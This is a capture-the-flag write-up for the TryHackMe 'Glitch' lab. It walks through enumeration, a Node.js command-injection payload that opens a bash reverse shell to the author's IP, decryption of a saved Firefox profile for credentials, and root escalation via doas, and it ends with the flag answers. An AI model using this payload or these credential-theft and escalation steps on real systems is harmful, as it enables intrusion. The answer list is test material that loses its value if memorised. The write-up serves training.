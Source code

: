 ```yaml
---
title: "Glitch"
Date: 2022-11-08
author: "Divyanshu Sharma"
permalink: /tryhackme/glitch
tags: tryhackme
---
```


# IP Address
10.10.139.157

# Enumeration
## Nmap 
```console
❯ nmap -sC -sV 10.10.139.157 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-25 19:13 IST
Nmap scan report for Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-25 19:13 IST
Nmap scan report for 10.10.139.157 
Host is up (0.18s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.97 seconds

```
## Gobuster
```console
❯ gobuster dir -u http://10.10.139.157/api -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php,js,html,xml,png,jpg | tee gobuster.log
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.139.157/api
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              png,jpg,php,js,html,xml
[+] Timeout:                 10s
===============================================================
2022/08/25 19:25:00 Starting gobuster in directory enumeration mode
===============================================================
/access               (Status: 200) [Size: 36]
/items                (Status: 200) [Size: 169]

```
## Website
**/**
```console
❯ curl  http://10.10.139.157/   
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>not allowed</title>

    <style>
      * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
      }
      body {
        height: 100vh;
        width: 100%;
        background: url('img/glitch.jpg') no-repeat center center / cover;
      }
    </style>
  </head>
  <body>
    <script>
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    </script>
  </body>
</html>

```
**/api/access/**
```console
❯ curl  http://10.10.139.157/api/access
{"token":"dGhpc19pc19ub3RfcmVhbA=="}                                                                                         
```
The *token* is in encoded in base64 and on decoding found token to be `this_is_not_real` 
**/api/items/** 
```console
❯ curl  http://10.10.139.157/api/items
{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}%                   
```
On using `Burpsuite` on this path with POST. Found that url uses some parameters.
On using wfuzz on the url to search for hidden parameters found that url takes `cmd` as a parameter
```console
❯ wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hh=45   http://10.10.139.157/api/items\?FUZZ\=oops
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.139.157/api/items?FUZZ=oops
Total requests: 475254

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000002370:   500        10 L     64 W       1081 Ch     "cmd"                                                                                                                       
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 3246
Filtered Requests: 3245
Requests/sec.: 0
```
**Now with burpsuite uploaded payload to /api/items**
```console
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.17.39.205/1234+0>%261"') HTTP/1.1
```
# Reverse Shell
- Found user id in /home/user/user.txt
- Found a `.firefox` file in `/home/user/`
- Downloaded the file locally
- Decrypted the file [firefox_decrypt](https://github.com/unode/firefox_decrypt)
```console
❯ python3 firefox_decrypt.py .firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
``` 
- Searched for SUID files 
```console
v0id@ubuntu:/home/user$ sudo -l
[sudo] password for v0id: 
Sorry, user v0id may not run sudo on ubuntu.
v0id@ubuntu:/home/user$ find / -type f -user root -perm -u=s 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas ------> Interesting
```
- Search gtfobins for doas vulnerabilities and and found a command for a root shell
- Escalted previlege and read the root.tx file
```console
v0id@ubuntu:/home/user$ doas -s
Password: 
root@ubuntu:/home/user# cat /root/root.txt
THM{diamonds_break_our_aching_minds}
```
# Answers
**token** - `this_is_not_real`
**user.txt** - `THM{i_don't_know_why}`
**root.txt** - `THM{diamonds_break_our_aching_minds}`
